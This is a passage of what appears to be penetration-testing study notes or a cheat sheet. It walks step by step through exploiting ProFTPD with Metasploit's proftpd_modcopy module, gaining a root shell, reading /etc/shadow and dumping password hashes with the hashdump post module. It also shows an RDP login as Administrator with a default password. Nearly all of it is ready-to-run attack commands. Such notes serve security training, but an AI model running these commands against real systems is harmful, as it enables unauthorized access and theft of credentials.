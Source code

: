```shell
xfreerdp /u:Administrator /p:password /v:<target_IP>
y
```

### 8.2. Dumping & Cracking Linux Hashes

**Initial enumeration and vulnerability identification**

```shell
# STEP 1: Initial enumeration and vulnerability identification

ifconfig  # Check your local IP address
nmap -sV <target-ip>  # Scan services and versions on the target

# Look for known vulnerabilities related to ProFTPD
searchsploit ProFTPD

# STEP 2: Exploitation with Metasploit

service postgresql start && msfconsole  # Start database and launch Metasploit
setg RHOSTS <target-ip>  # Set the target globally

search ProFTPD  # Look for available ProFTPD exploits
use exploit/unix/ftp/proftpd_modcopy  # Example of a relevant exploit
show options
exploit  # Launch the attack

# If exploitation is successful and you have a shell as root:
whoami
id
/bin/bash -i  # Spawn an interactive bash shell if needed

cat /etc/shadow  # Dump the shadow file manually
# → Password hashes appear like: $6$... → $6 means SHA-512
# → Copy the full hash string carefully

# Background the session and prepare for hash extraction
background
sessions
sessions -u 1  # Upgrade session if needed
sessions  # Check active sessions

# Use a Metasploit post module to extract hashes
search hashdump
use post/linux/gather/hashdump
show options
set SESSION 2  # Replace with your active session ID
run

# Take note of the generated file path (loot location)
# Example: /root/.msf4/loot/2025_04_10/.../shadow.txt

# Exit Metasploit
exit -y
```
